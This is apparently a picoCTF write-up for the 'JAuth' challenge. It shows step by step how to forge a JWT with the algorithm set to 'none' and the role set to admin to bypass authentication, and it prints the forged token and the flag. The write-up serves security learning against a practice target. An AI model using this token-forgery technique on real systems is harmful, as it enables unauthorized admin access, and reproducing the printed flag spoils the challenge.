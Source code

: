 # JAuth
> Write-up author: vreshco
## DESCRIPTION:
Most web application developers use third party components without testing their security. Some of the past affected companies are:

    Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
    Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
    VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one? The website is running here. Can you become an admin? You can login as test with the password Test123! to get started.

## HINT:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
## STEPS:
1. First open the link given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/217517687-f4ff83aa-6647-4d30-81a7-b19ee537a89a.png)


2. Since there's no register button, we can use the creds given at the description.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/217517849-f9bf601a-4c79-4073-980c-15e6de188205.png)


3. Clearly nothing to see here, let's get the token.

> RESULT

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjc1ODU1ODMyNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEwOS4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzEwOS4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NzU4NTU4MzN9.hmtzP0PqB8HlJ4NbO6uffs3dc7TE2m64Bbsu8Df6T9o
```

4. Decode that using [this](https://jwt.io/) online tool.

![image](https://user-images.githubusercontent.com/70703371/217518206-7b7bfb11-15bc-4a1b-8801-9da8cd12dade.png)


5. Let's try with the simple approach by changing the role value to "admin", then copy the encoded jwt token then paste it in to the webapp as our token.


![image](https://user-images.githubusercontent.com/70703371/217518865-5963193a-79d6-4c1d-b5c9-317c699b7f1b.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/217519131-fe059eb7-2413-46b1-8c6f-692b1a2bdb01.png)


6. Hmm.. we can use another approach by remove the algorithm used, we can change it to **none**. But since jwt.io can change the alg to none, because it's not in the database, we can use [this](https://token.dev/) jwt debugger.

> CHANGE IT TO NONE

![image](https://user-images.githubusercontent.com/70703371/217521278-b0686d36-6fbe-4b7f-b433-0eb42342f610.png)


```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjc1ODU1ODMyNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEwOS4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzEwOS4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjc1ODU1ODMzfQ
```

7. Now login again as `test`, then after paste the token, remember jwt always have 2 dots (.), while we have one, let's add another dot at the end.

> FINAL TOKEN

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjc1ODU1ODMyNjczLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQ7IHJ2OjEwOS4wKSBHZWNrby8yMDEwMDEwMSBGaXJlZm94LzEwOS4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjc1ODU1ODMzfQ.
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/217522272-59229211-fcf8-4c54-8016-50330268c19f.png)


8. Got the flag!

## FLAG

```
picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}
```


